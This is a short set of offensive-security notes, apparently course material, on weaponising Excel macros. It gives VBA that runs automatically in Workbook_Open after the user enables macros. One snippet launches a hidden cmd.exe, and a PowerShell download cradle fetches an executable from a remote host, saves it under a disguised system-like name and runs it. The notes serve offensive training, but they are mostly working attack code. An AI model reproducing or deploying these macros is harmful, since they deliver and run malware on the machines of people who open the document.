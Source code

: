 # Excel

To create a new macro, call it "mymacro" or any arbitrary name. When the VB editor opens, select "ThisWorkbook" under the excel objects section in the project tree view. Make sure "Workbook" is selected in the first dropdown list and "Open" in the second. Then paste in the code and save and exit. This will run once the "Enable" macros button has been clicked by the user.

## VBA Application Launcher

We can launch applications outside of VBA with the "Shell" function. The function takes two arguments, first, the application to launch, and second, the "WindowStyle" of the launched application. We can use the "vbHide" or "0" value to launch a hidden application. Note, the application may not open in a window, however, it is visible as a child process with any process viewer/explorer utility such as procexp/64 from sysinternals.

```vba
Private Sub Workbook_Open()
    Dim str As String
    str = "cmd.exe"
    Shell str, 0
End Sub
```

## VBA PowerShell Download Cradle and Code Execution



```vba
Private Sub Workbook_Open()
    macro1
End Sub

Sub macro1()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/winout64.exe', 'C:\Users\Offsec\Desktop\winsysx64.exe')"
    Shell str, 1
    Wait (10)
    Dim RetVal
    RetVal = Shell("C:\Users\Offsec\Desktop\winsysx64.exe", 1)
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```





